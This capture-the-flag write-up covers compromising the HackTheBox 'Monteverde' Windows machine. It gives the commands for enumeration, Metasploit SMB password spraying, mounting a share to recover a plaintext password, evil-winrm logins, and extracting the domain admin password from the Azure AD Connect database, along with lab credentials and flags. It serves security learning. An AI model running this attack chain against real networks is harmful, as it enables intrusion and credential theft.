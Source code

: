 ```yaml
---
title: Write-up Monteverde Machine
author: pcw3r
date: 2020-06-13 11:33:00 +0800
categories: [HackTheBox, Boot2Root]
tags: [WINDOWS, MEDIUM, ENUMERATION, ACTIVE-DIRECTORY EXPLOITATION, LAZY-PASSWORD, AZURE EXPLOITATION]
math: true
---
```


**<center>Ref°: HTB-08-Boot2Root</center>**

![Desktop View]({{ "/assets/img/monteverde/HTB-Badge-Monteverde.png" | relative_url }})

--- Monteverde is a Windows machine that highlights the weakness of a password (lazy password) after a first enumeration and the presence of a password in the SMB service to get our flag user.

A privilege escalation is possible when our user is in Azure Admins security group to perform an attack through AD Azure Connect service to get flag root.

![Desktop View]({{ "/assets/img/monteverde/HTB-Information-Monteverde.png" | relative_url }})

## **<span style='color:#c0392b'>[1] Discovery - Figure out environment</span>**
### Check all services
***
We find interesting services `dns`, `kerberos`, `ldap` and `smb` on their usual ports.

```terminal
$ nmap -A -T5 10.10.10.172 -p-
```

### Enumerate Samba service from enum4linux
***
Enum4linux is a tool for enumerating information from Windows and Samba systems.

We find users : `Administrator, Guest, AAD_987d7f2f57d2, mhope, SABatchJobs, svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, smorgan`

And interesting group Azure Admins with 3 members.

```terminal
$ enum4linux 10.10.10.172
```

```
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
.......
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
```

## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### Using Lazy Password 
***

We have much possitiblity to exploit Active-Directory Machine.

Reference - Active-Directory exploit toolbox : <https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md>

But longer enumeration and kerberos attack give me nothing. In this situation we're gonna try `lazy passwords`.

Let's see with smb_login module in Metasploit and set true the `USER_AS_PASS`.

```terminal
$ msfconsole
msf5 > search smb_login
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain MEGABANK.LOCAL
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /root/Documents/writeups/monteverde/userfile.txt
msf5 auxiliary(scanner/smb/smb_login) > set USER_AS_PASS true
msf5 auxiliary(scanner/smb/smb_login) > set rhosts 10.10.10.172
msf5 auxiliary(scanner/smb/smb_login) > exploit
```
Result : `Success: 'megabank.local\SABatchJobs:SABatchJobs'`


## **<span style='color:#c0392b'>[3] Lateral Movement - Move through environment</span>**
### Plaintext Password from conf file
***

We enum with SABatchJobs on smb service.

```terminal
$ smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172
$ mount -t cifs //10.10.10.172/users$ share_users -o username=SABatchJobs,password=SABatchJobs
```

We find file in user folder `azure.xml` with a plaintext password : `4n0therD4y@n0th3r$`
This xml seems to be created by azure cmdlet to create password for the user mhope with -AsPlainText attribut.

![Desktop View]({{ "/assets/img/monteverde/HTB-Images-Monteverde-PasswordMhope.png" | relative_url }})


### Remote Service WinRM login
***

We can connect now with evil-winrm tool. This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985).

WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

Reference - evil-winrm tool : <https://github.com/Hackplayers/evil-winrm>

```terminal
$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

### Flag user
***

We flag the user to validate the compromission of the system user.

Result the flag : 4961976bd7d8f4eeb2ce3705e2f212f2


## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### Azure ADConnect Database exploitation
***

We identified an interesting group at the beginning Azure Admins.
Here our user Mhope belongs to this group : Global Group Memberships Azure Admins

```terminal
PS c:\Users\mhope\Documents> net users mhope
```

After research to find any exploit through group Azure Admins, i finally found the exploitation to compromise Monteverde Machine through the database of Azure ADConnect Service.

Reference - exploit : <https://blog.xpnsec.com/azuread-connect-for-redteam/>

Azure AD Connect is the service installed within the Active Directory environment. It is responsible for syncing and communicating with Azure AD and is what the majority of this post will focus on.

From mhope user we have the ability to extract credential of the account (with the necessary right to perform DCSync Attack) which served during the installation of Azure AD Connect through the decryption of the value encrypted_configuration in the database ADSync.

To do this we use the script of a hackthebox player made available on github : <https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1>

This script is based on the POC created by XPN but with a modification in the ArgumentList to pass when we execute it.
The script then becomes more flexibility.

The decrypted password for the account which served during the installation of Azure AD Connect will be revealed : `d0m@in4dminyeah!`

```terminal
PS C:\Users\mhope\Documents> menu
PS C:\Users\mhope\Documents> Azure-ADConnect -server 10.10.10.172 -db ADSYNC
```
Result :
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!


### Remote Service WinRM login
***

Here the account is administrator, so we dont need to perform DCSync Attack.

We can connect with evil winrm and grab the flag root to valide the compromission of the mahine.

```terminal
$ evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!'
```

### Flag root
***

Result : 12909612d25c8dcf6e5a07d1a804a0bc

***

## **<center>Trophy</center>**

> **They might call it the cloud but it is, in fact, just someone else's computer.**
>
> Mark Russinovich
